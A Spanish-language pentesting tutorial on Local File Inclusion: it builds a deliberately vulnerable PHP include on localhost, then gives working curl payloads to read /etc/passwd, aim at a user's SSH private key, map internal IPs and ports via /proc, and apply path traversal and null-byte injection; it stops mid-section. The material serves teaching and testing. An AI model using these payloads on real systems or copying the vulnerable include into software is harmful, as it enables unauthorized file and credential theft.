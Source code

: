 ```yaml
---
title: 'Local file inclusion (LFI)'
publishedAt: '2024-11-16'
group: 'tecnicas_pentesting'
groupOrder: 0
---
```


## Antecedentes

Para preparar el entorno vamos a levantar un servidor apache en el que alojaremos un archivo PHP que admita un parametro get con la ruta a un archivo. Esto nos sirva para simular una página que admite un archivo de manera que nosotros podamos explotar esa vulnerabilidad incluyendo un archivo local distinto del que se esperaba.

Vamos a la ruta donde meteremos los archivos del servidor httpd
```bash
cd /srv/http
```

Arrancamos el servicio httpd
```bash
sudo systemctl start httpd # Arrancamos https
```

Comprobamos que está corriendo en el puerto 80
```bash
lsof -i :80
```

Creamos archivo PHP
```bash
nano example.php
```

Y añadimos
```php
<?php
    $filename = $_GET['file']; // ?file=test.txt
    include($filename);
?>
```

Con este código en PHP, se importaría el archivo que se le pasará como query param

Para probarlo, creamos el archivo test.txt
```text
Hola. Esto es una prueba
```

Y accedemos a [http://localhost/example.php?file=test.txt](http://localhost/example.php?file=test.txt)

## Vulnerabilidad

Igual que la página está hecha para que se le pase el archivo test.txt, nosotros sabemos que se puede acceder a más rutas como, por ejemplo, /etc/passwd
Por lo que, al acceder a [http:localhost/example.php?file=/etc/passwd](http:localhost/example.php?file=/etc/passwd), nos devuelve la información de los usuarios del sistema (haciendo&nbsp;&nbsp;<kbd>ctrl + u</kbd>&nbsp;&nbsp;nos muestra el código fuente formateado). Esto nos muestra que sí que existe una vulnerabilidad que nos permite acceder a los archivos del sistema.

### Rutas interesantes

* `/etc/passd`

Para ver los usuarios existentes en la máquina, hacemos un curl a la ruta con /etc/passd (con -s para silent) y grepeamos por los que acaben en sh

```bash
curl -s "http://localhost/example.php?file=/etc/passwd" | grep "sh$"
```

El resultado puede ser algo como
```csv
adrian:x:1000:1000::/home/adrian:/usr/bin/zsh
```

Con lo que intentaríamos acceder a su clave privada de ssh con la ruta /home/adrian/.ssh/id_rsa que puede ser una clave privada de identidad que permita acceder a la máquina por ssh sin necesidad de autenticarnos.

* `/etc/group`
* `/proc/sched_debug`
* `/proc/net/fib_trie`

Para ver la ip interna de la máquina:
1. Hacemos un curl silent (-s) para sacar /proc/net/fib_trie
2. Filtramos insensible a mayúculas/minúsculas (-i) por "host local"
3. Añadimos la línea de abajo de las coincidencias (-B 1)
4. Hacemos un grep mostrando solo las coincidencias (-o) por expresiones regulares Perl (-P) de la ip
5. Eliminamos repeticiones

<br/>

```
curl -s "http://localhost/example.php?file=/proc/net/fib_trie" | grep -i "host local" -B 1 | grep -oP '(\d{1,3}\.){3}\d{1,3} | sort -u'
```

127.0.0.1 será la loopback

192.X.X.X sera la ip interna

Las que haya en medio seran las interfaces de red

* `/proc/net/tcp`

Para ver puertos abiertos internamente.

1. Hacemos un curl silent (-s) para sacar /proc/net/tcp
2. Cogemos el segundo argumento con awk (las local address)
3. Eliminamos las filas que contengan "local address" (la cabecera)
4. Cogemos el segundo argumento con awk para el separador ":" (los puertos en hexadecimal)
5. Eliminamos duplicados

```
curl -s "http://localhost/example.php?file=/proc/net/tcp" | awk '{print $2}' | grep -v "local address" | awk '{print $2}' FS=":" | sort -u
```

El resultado son los puertos. Si ejecutamos python y ponemos 0x + el resultado de uno de los puertos, nos lo devuelve en decimal

Sabiendo esto, sacamos todos los puertos en bash en decimal con un bucle for de todo lo anterior

```
for port in $(curl -s "http://localhost/example.php?file=/proc/net/tcp" | awk '{print $2}' | grep -v "local address" | awk '{print $2}' FS=":" | sort -u); do echo "[$port] -> Puerto $(echo "ibase=16; $port" | bc)"; done
```

### Directory Path Traversal

Si el include en php añade una ruta preestablecida como

```php
include('/srv/http/' . $filename)
```

el directory path traversal consiste en poner una ruta relativa que retroceda lo suficiente como para llegar a la raíz.

Por lo que la ruta para acceder a /etc/passwd quedaría como [http://localhost/example.php?file=../../../../../../etc/passwd](http://localhost/example.php?file=../../../../../../etc/passwd)

### Null Byte Injection

Si el include en php añade una ruta preestablecida como

```php
include($filename . '.txt')
```

a la que solo hay que pasarle el nombre del archivo sin la extension, si nosotros le pasamos [http://localhost/example.php?file=/etc/passwd](http://localhost/example.php?file=/etc/passwd), lo que intentaría buscar el archivo es /etc/passwd.txt, que no existe.

Para bypassear esto, intentamos que no haga caso a lo que hay a la derecha de nuestra ruta añadiendo %00 que representa el carácter nulo \0